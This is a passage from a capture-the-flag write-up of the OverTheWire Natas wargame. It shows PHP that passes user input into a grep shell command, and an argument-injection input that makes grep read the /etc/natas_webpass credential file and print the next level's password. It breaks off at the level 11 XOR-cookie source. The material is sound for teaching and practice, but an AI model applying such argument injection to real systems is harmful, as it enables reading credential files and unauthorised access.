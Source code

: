```html
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Try to exploit the behaviour of `grep`: this searches any given input file. We can provide more than one...

Input: `p /etc/natas_webpass/natas11`: this corresponds to the executed command:

```bash
grep -i p /etc/natas_webpass/natas11 dictionary.txt
```

so this will search both `dictionary.txt` and `/etc/natas_webpass/natas11` for the character `p` and gives us:

```
/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
...
```

## Natas 11

### Credentials

Username: natas11

Password: UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

URL: http://natas11.natas.labs.overthewire.org

### Message

Cookies are protected with XOR encryption

Background color: [#ffffff]

### Solution

The source code (link):

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas11", "pass": "<censored>" };</script></head>
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
```